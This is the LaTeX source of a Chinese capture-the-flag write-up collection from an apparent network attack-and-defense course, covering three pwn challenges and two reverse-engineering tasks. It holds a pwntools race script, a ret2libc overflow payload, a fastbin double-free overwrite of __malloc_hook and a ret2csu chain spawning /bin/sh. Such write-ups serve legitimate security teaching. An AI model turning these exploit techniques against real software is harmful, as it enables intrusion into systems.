\documentclass[cn,11pt,chinese]{elegantbook}
\usepackage{float}
\usepackage{listings}
\lstset{
 columns=fixed,       
 numbers=left,                                        % 在左侧显示行号
 numberstyle=\tiny\color{gray},                       % 设定行号格式
 frame=none,                                          % 不显示背景边框
 backgroundcolor=\color[RGB]{245,245,244},            % 设定背景颜色
 keywordstyle=\color[RGB]{40,40,255},                 % 设定关键字颜色
 numberstyle=\footnotesize\color{darkgray},           
 commentstyle=\it\color[RGB]{0,96,96},                % 设置代码注释的格式
 stringstyle=\rmfamily\slshape\color[RGB]{128,0,0},   % 设置字符串格式
 showstringspaces=false,                              % 不显示字符串中的空格
%  language=php,                                        % 设置语言
}
% 标题信息
\title{CTF学习过程中的题目WP}
\author{shijy16}
\date{\today}

\cover{cover.png}

\begin{document}

\maketitle

\chapter*{特别声明}
\markboth{Introduction}{前言}

本册是CTF解题记录,题目来自于各种地方。

供初学CTF的同学们参考交流。

\vskip 1.5cm

\begin{flushright}
shijy16
\end{flushright}


\tableofcontents
\setcounter{page}{1}
\pagenumbering{arabic}

\chapter{pwn}
\section{高级网络攻防-babypwn}
高级网络攻防课说做出来这些题才可以选这门课。这一系列题目因为不是公开平台上的,所以就不放出来了。

这道题进去首先要输入一个name,有三个选项:
\begin{itemize}
    \item 1 提高price: 最多提高十次,到100。
    \item 2 显示price:始终是0。
    \item 3 获得flag:price到100也换不到,提示price太低。
\end{itemize}

用ida逆一下,发现price到达200就可以拿到shell,且price是char*,被mmap到了'/tmp/input\_name.acc':
\begin{lstlisting}
rice = mmap(0LL, 8uLL, 3, 1, fd, 0LL);          // PROT_WRITE | PROT_READ
                                                // MAP_SHARED
\end{lstlisting}
各个参数的含义可以用\href{https://github.com/zTrix/magic}{magic}查看。发现是共享映射的,那么直接开两个进程,输入一样的名字,分别提高10次price就可以拿到flag了。
\begin{lstlisting}
from pwn import *
context.log_level = "debug"
io_0 = remote("TARGET_ADDR", PORT)
io_0.sendafter("name.\n", b"a")
io_1 = remote("TARGET_ADDR", PORT)
io_1.sendafter("name.\n", b"a")
for i in range(11):
    io_0.sendlineafter("getflag\n", "1")
    io_1.sendlineafter("getflag\n", "1")
io_0.close()
io_1.interactive()
\end{lstlisting}

\section{高级网络攻防实验二-pwn1}
\subsection{程序基本信息}
使用checksec查看程序基本信息:
\begin{lstlisting}
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
\end{lstlisting}

注意到没有开启canary保护机制。

\subsection{主要逻辑和漏洞}
使用IDA Pro进行对pwn1进行逆向,可以发现本程序逻辑可总结如图~\ref{fig:1}。
\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{WP/pwn/pic/1.jpg}
    \caption{pwn1主要流程图}
    \label{fig:1}
\end{figure}

由程序主要流程图可以看出,本程序主要漏洞如下:
\begin{itemize}
    \item libc地址泄露: 可以通过第一次输入获取libc中atoi函数地址,从而获取libc基址。
    \item 栈溢出: 第二次read向buf中读取了0x200大小的数据,远远超出了buf的长度,是明显的栈溢出。
\end{itemize}

\subsection{解题过程}
解题主要思路如下:
\begin{itemize}
    \item 在libc中查找合适的gadget。
    \item 第一次输入1200,从而获取atoi函数地址,再根据此计算出libc基址和gadget地址。
    \item 利用第二次输入造成栈溢出(没有canary,因此可以直接利用),覆盖返回地址,使控制流被劫持gadget。
\end{itemize}
接下来分节介绍解题过程。

\subsubsection*{gadget寻找}
首先尝试在libc中寻找one\_gadget,使用one\_gadet搜索工具可以找到如下三个one\_gadget:
\begin{lstlisting}
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
    rsp & 0xf == 0
    rcx == NULL
    
0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
    [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
    [rsp+0x70] == NULL
\end{lstlisting}
可以看到,每个one\_gadget都有一些约束条件,可以暂时忽略约束条件,选取第一个为最后的跳转目标。

\subsubsection*{地址泄露}
libc中atoi函数偏移可以直接从libc中获取,而后,通过第一次输入"1200"获得atoi函数地址后,计算出libc基址,再计算出one\_gadget地址:
$$ libc\_addr = atoi\_addr - atoi\_offset $$
$$ one\_gadget\_addr = libc\_addr + one\_gadget\_offset $$

\subsubsection*{ret2libc}
接下来,构造第二次输入,造成栈溢出,进行ret to libc攻击,跳转到one\_gadget。此时程序栈情况如下:
\begin{lstlisting}
buf-24:     ret_addr
buf-16:     ebp
buf-8:      v5
buf:        buf_end
...
buf+256:    buf_start
\end{lstlisting}
其中,v5是程序中使用的另一个局部变量。所以只要溢出24个字节,在后8个字节填充one\_gadget地址即可,可以构造攻击载荷如下:
\begin{lstlisting}[language=python]
payload = 'A'*(264+16) + p64(one_gadget_addr) 
\end{lstlisting}
攻击后,栈情况如下:
\begin{lstlisting}
buf-24:     ret_addr=one_gadget_addr
buf-16:     ebp='AAAAAAAA'
buf-8:      v5='AAAAAAAA'
buf:        'AAAAAAAA'
...
buf+256:    'AAAAAAAA'
\end{lstlisting}
直接实施攻击,可以直接获取到shell,如图~\ref{fig:2},因此,刚才选取的one\_gadget约束条件是恰好满足的,攻击完成,在远程环境下可以在shell中获取到flag,flag为:
$$ flag\{simple\_return\_2\_libc\} $$
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{WP/pwn/pic/2.jpg}
    \caption{pwn1攻击成功}
    \label{fig:2}
\end{figure}

\section{高级网络攻防实验二-pwn2}

\subsection{程序基本信息}
使用checksec查看程序基本信息:
\begin{lstlisting}
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
\end{lstlisting}
防御机制十分完善。

\subsection{主要逻辑和漏洞}
本题程序运行时提供了四个选项供用户选择:
\begin{enumerate}
    \item Create String: 通过calloc创建一个堆块,需要指定大小、输入内容。
    \item Edit String: 修改一个堆块的内容。
    \item Delete String: free一个堆块。
    \item Show String: 通过puts输出一个堆块的内容。
\end{enumerate}
经过逆向,发现程序在实现过程中主要存在delete string流程(图~\ref{fig:3})中的如下漏洞:
\begin{itemize}
    \item Use After Free: 堆块被free以后,堆块指针没有被清空,使得用户仍可以查看和free堆块。
    \item Double Free: 由于存在Use After Free漏洞,且free前没有检查合法性,导致用户可以对一个free后的堆块进行再次free,即free悬空指针。
\end{itemize}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.6\textwidth]{WP/pwn/pic/3.jpg}
    \caption{pwn2中delete函数,没有事先检查、事后清空指针}
    \label{fig:3}
\end{figure}

此外,程序总共可用20个堆块指针,这意味着最多只能创建20个堆块。

\subsection{解题过程}
主要解题思路如下:
\begin{itemize}
    \item 在libc中查找合适的gadget。
    \item 构造unsorted bin,通过Use After Free泄露main arena地址,从而计算出gadget地址。
    \item 实施fastbin double free攻击,向libc \_\_malloc\_hook中写入gadget地址,并通过添加堆块,触发gadget,完成控制流劫持。
\end{itemize}
接下来分节介绍解题过程。

\subsubsection*{gadget查找}
本题得到三个和第一题一样的one\_gadget,和第一题获取one\_gadget的方法和结果都一样,此处不再赘述。

\subsubsection*{地址泄露}
程序中第一个unsorted bin的fd和bk均指向Main Arena地址,该地址是libc中一个固定地址,可以通过该地址计算出libc基址。而unsorted bin的fd和bk在该chunk被释放前属于chunk的内容部分。这意味着,一个chunk被释放后成为unsorted bin时,其内容前八个字节将是其fd指针,若该chunk是第一个unsorted bin,fd指向Main Arena。

因此可以通过构造一个unsorted bin,而后查看其内容来获取Main Arena地址。此处要注意两个细节:
\begin{itemize}
    \item 本题使用glibc2.27,启用了tcache机制,堆块被释放后若大小在[24,1032]区间,且对应tcache链表没满,将会被放入tcache链表,不会成为unsorted bin。
    \item chunk释放时如果和top chunk相邻,将会和top chunk合并,不会成为unsorted bin。
\end{itemize}

通过如下操作可以构造出一个unsorted bin,并通过查看其内容获取Main Arena地址。
\begin{lstlisting}
    add(1040, 'A'*0x10) # 0
    add(0x68, 'A'*3)    # 1: avoid merging 0 to top chunk when freed
    delete(0)           # free 0 to unsorted bin
    show(0)             # show main_arena_addr
\end{lstlisting}
获取Main Arena地址后,可以通过如下计算得出one\_gadget地址:
$$ libc\_addr = main\_arena\_addr - main\_arena\_offset $$
$$ one\_gadget\_addr = libc\_addr + one\_gadget\_offset $$
\_\_malloc\_hook地址也可以用相同方法得到。

\subsubsection*{劫持控制流}
首先需要通过fastbin double free向\_\_malloc\_hook中写入one\_gadget地址。

为了构造出两个fastbin来实施攻击,首先要满足堆块大小在32-128范围内,此处选用0x68的大小进行攻击,原因稍后解释。其次,0x68大小的tcache被填满之后,释放的堆块才会被放入fastbin。首先释放7个chunk填满tcache,之后释放的2个chunk就会成为fastbin:
\begin{lstlisting}
    # add 8 more chunks, 6 for filling tache, 2 for double free
    for i in range(8):
        add(0x68, 'A'*0x68) # add 2-9
    for i in range(9):
        delete(i + 1) # delete 1-9, then 8 and 9 in fastbin
    delete(8)   # double free!
\end{lstlisting}
以上代码最后一句直接触发了double free,让fastbin链表成为`8->9->8`。此时,可以通过如下堆块添加序列来完成对malloc\_hook的写入:
\begin{lstlisting}
    add(0x68,p64(malloc_hook - 0x23)) #add 10, fastbin: 8->9->(malloc_hook - 0x23)
    add(0x68, '1') # add 11, fastbin: 9->(malloc_hook - 0x23)
    add(0x68, '1') # add 12, fastbin: (malloc_hook - 0x23)
    add(0x68, flat(['A'*0x13, p64(one_gadget)])) # add 13, write to (malloc_hook - 0x23), overwrite malloc_hook with one_gadget
\end{lstlisting}
fastbin链表变化见以上代码的注释。

这里读者可能会有疑惑:
\begin{itemize}
    \item 为什么在分配chunk 10时,没有分配tcache中的free chunk,而是直接分配了fastbin中的chunk?
    \item 为什么选取malloc\_hook-0x23为目标地址,而非直接选取malloc\_hook-0x10,chunk内容直接填充p64(one\_gadget),从而直接向malloc\_hook写入one\_gadget?
\end{itemize}
第一个问题非常简单,本题中使用calloc分配内存,不会分配tcache中的chunk。

至于第二个问题,是为了满足分配内存时size位的检测。在分配内存时,glibc2.27会检测分配的目标chunk的size域和要求的size是否一致,不一致则会报错。在malloc\_hook-0x23位置处,读取到的chunk的size域为0x7f,如图~\ref{fig:4},glibc2.27的转换方式计算出的fastbin\_index=$(0x7f>>4)-2=5$,该fastbin\_index对应的fastbin大小为0x70,使用0x68大小的chunk恰好可以满足要求。
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{WP/pwn/pic/4.jpg}
    \caption{malloc\_hook-0x23处fake chunk的size域}
    \label{fig:4}
\end{figure}

完成对malloc\_hook的写入后,只要再进行一次add操作,触发malloc就可以劫持控制流到one\_gadget了,这道题中libc有三个one\_gadget,只有其中一个one\_gadget的约束条件是满足的。通过one\_gadget获取到shell,如图~\ref{fig:5},最后获取的flag为:
$$ flag\{classic\_fastbin\_attack\} $$
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{WP/pwn/pic/5.jpg}
    \caption{pwn2攻击成功}
    \label{fig:5}
\end{figure}


\section{高级网络攻防实验二-pwn3}
\subsection{程序基本信息}
使用checksec查看程序基本信息:
\begin{lstlisting}
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
\end{lstlisting}
发现没有启用canary和ASLR。

\subsection{主要逻辑和漏洞}
通过逆向发现,该程序十分简单,仅仅执行了一次read,调用read向大小为10的buf里读取了长度为0x1000的用户输入,存在严重的栈溢出漏洞。

\subsection{解题过程}
本题主要通过利用栈溢出漏洞,由于本题中没有找到可以利用的one\_gadget,所以考虑使用syscall(EXECV, '/bin/sh', 0, 0),主要难题是如何利用载荷布置syscall的参数和调用syscall。

本题解题主要使用的攻击方法是ret2csu。\_\_libc\_csu\_init是用来对libc进行初始化操作的,而一般的程序都会调用libc函数,所以这个函数一定会存在。这个函数中存在如下gadgets:
\begin{lstlisting}
csu_front:
    mov     rdx, r15
    mov     rsi, r14
    mov     edi, r13d
    call    ds:(__frame_dummy_init_array_entry - 600E10h)[r12+rbx*8]
    add     rbx, 1
    cmp     rbp, rbx
    jnz     short loc_4006D0
csu_back:
    add     rsp, 8
    pop     rbx
    pop     rbp
    pop     r12
    pop     r13
    pop     r14
    pop     r15
    retn
\end{lstlisting}
可以看出,只要能够布置栈中内容,且劫持控制流到csu\_back,就可以控制寄存器rbx、rbp、r12、r13、r14、r15,在csu\_back执行返回后,若返回到csu\_front,就可以用r13、r14、r15控制rdx、rsi、edi,即函数调用的前三个参数,再控制rbx=0,则可以调用r12中函数,若控制rbp=1,还可以继续执行到csu\_back,进行新一轮的函数调用。

由于本题中栈溢出长度很长,因此可以用长payload对栈进行布局,进行多次ret2csu攻击以达到获取shell的目的。

因此,本题需要构造一个长攻击载荷,该载荷需要完成如下步骤:
\begin{itemize}
    \item 劫持控制流到csu\_back,进行第一轮攻击,目的是调用read(0, READ\_GOT, 1),这一步要覆盖READ\_GOT为调用syscall的地址。完成后返回到csu\_back。
    \item 回到csu\_back后,进行第二轮攻击,目的是调用syscall(READ, 0, BUFFER\_ADDR, 0x3b),这一步要在调用syscall前将eax置为0,因为syscall的第一个参数,即系统调用号从eax中读取,剩下三个参数正常读取。这一步的目的是为下一轮攻击布置好参数,向BUFFER\_ADDR中写入'bin/sh$\backslash$x00',读取长度为0x3b是为了给eax赋值为0x3b,0x3b是EXECV的调用号。完成后返回到csu\_back。
    \item 回到csu\_back后,进行第三轮攻击,目的是调用syscall(EXECV, BUFFER\_ADDR, 0, 0)。这一轮完成后即可获取shell。
\end{itemize}

由于本程序没有开启PIE,所以READ\_GOT、csu\_front、csu\_back等地址都可以直接从二进制文件中获取。

接下来依次介绍这三轮攻击。

\subsubsection*{第一轮}
这一轮的目的是利用ret2csu调用read(0, READ\_GOT, 1),从而覆盖READ\_GOT为syscall地址,并在完成后进入csu\_back。按照正常栈溢出方式覆盖main函数返回地址和按csu的顺序布置好read函数的参数即可。

这一步需要注意的是,在覆盖READ\_GOT中表项为syscall地址时,只需要将该表项最后一字节改为0x4f即可,因为在read函数中的该位置恰好是一个`call syscall`,如图~\ref{fig:6}。所以,本次请求输入时,输入一字节的0x4f即可。
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\textwidth]{WP/pwn/pic/6.jpg}
    \caption{read中的syscall}
    \label{fig:6}
\end{figure}

这一步完成后,以后再通过READ\_GOT表项调用read,实际上都是调用syscall函数。完成后,控制流会进入csu\_back,开始第二轮攻击。

\subsubsection*{第二轮}
这一轮的目的是为最终调用syscall(EXECV, BUFFER\_ADDR, 0, 0)做准备,需要做两个最主要的准备工作:
\begin{itemize}
    \item 向BUFFER\_ADDR中写入包含'/bin/sh'的字符串。这里的BUFFER\_ADDR是程序数据段中一个修改了附近数据不影响程序执行的地址。
    \item 将eax置为0x3b,即将EXECV的调用号准备好。
\end{itemize}

而调用syscall(READ, 0, BUFFER\_ADDR, 0x3b)并向程序输入包含'/bin/sh$\backslash$x00'的长为0x3b的字符串可以满足要求,因为read函数会返回读取内容的长度,即写入eax寄存器。

为了调用syscall(READ, 0, BUFFER\_ADDR, 0x3b),需要向eax写入READ的调用号0,幸运的是,在程序中可以找到如下gadget来完成这个步骤:
\begin{lstlisting}
mov     eax, 0
pop     rbp
retn
\end{lstlisting}
记其地址为eax\_0\_addr。

所以,本轮主要流程:
\begin{itemize}
    \item 在栈上布置好syscall(READ, 0, BUFFER\_ADDR, 0x3b)的后三个参数。在csu\_back中pop到对应寄存器中。
    \item 在csu\_back返回时,返回到eax\_0\_addr。
    \item 在eax\_0\_addr返回时,返回到csu\_front,最终成功调用syscall(READ, 0, BUFFER\_ADDR, 0x3b)。
    \item 输入'/bin/sh$\backslash$x00'+'A'*0x28。
\end{itemize}
本轮完成后,会回到csu\_back并继续执行。

\subsubsection*{第三轮}
这一轮是最后一步,调用syscall(EXECV, BUFFER\_ADDR, 0, 0)。最重要的参数,也就是EXECV的系统调用号0x3b和BUFFER\_ADDR位置的'/bin/sh$\backslash$x00'已经在上一轮中布置好,这一轮只要在栈上布置好后三个参数即可。

最后,程序会调用syscall(EXECV, BUFFER\_ADDR, 0, 0),相当于execv('/bin/sh',0,0),成功获取shell,如图~\ref{fig:7},最终获取到的flag为:
$$ flag\{medium\_difficulty\_rop\_csu\} $$
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.6\textwidth]{WP/pwn/pic/7.jpg}
    \caption{pwn3攻击成功}
    \label{fig:7}
\end{figure}

\chapter{逆向工程}
\section{高级网络攻防-simple\_vm}
一个简单的vm,用switch语句做的,进去F5就能看到,推导出有哪些指令和格式就好了。题目也给了一段指令,要求输入三个数字,然后运行这段指令,对这三个数进行运算后,栈中某个位置结果是0,输入的三个数字就是flag。

最主要的点在于看栈、寄存器和其他参数的内存位置,然后把题目给的指令解析出来,列出算式解方程。

\section{高级网络攻防-anti\_patience}
这个题目直接用ida逆向会有一些地方解析失败,需要手动patch,把对应位置patch为nop,这里用LazyIDA插件,填充为nop后就可以生成伪代码了。

题目还用ptrace判断当前进程有没有被gdb调试,那个位置也需要patch,否则调试的时候随机数种子和正常运行的时候不一样。最后发现整个程序需要输入一段字符串,这段字符串进行很长一段逐字符运算后,得到一个res,然后题目中也有一个准备好的字符串,这个字符串逐字节和随机数进行运算,得到一个target\_res。最后对这两个结果进行比较,相等则输出flag,这个flag也是由随机数生成的。

解题步骤:
\begin{itemize}
    \item patch解析失败的地方。
    \item patch反调试的地方,使调试时随机种子不变。
    \item gdb调试,在检查结果的时候下断点,获取target\_res。
    \item 把输入字符串的运算过程copy出来,改成一个暴力求解过程。就可以获得flag了。
\end{itemize}

\end{document}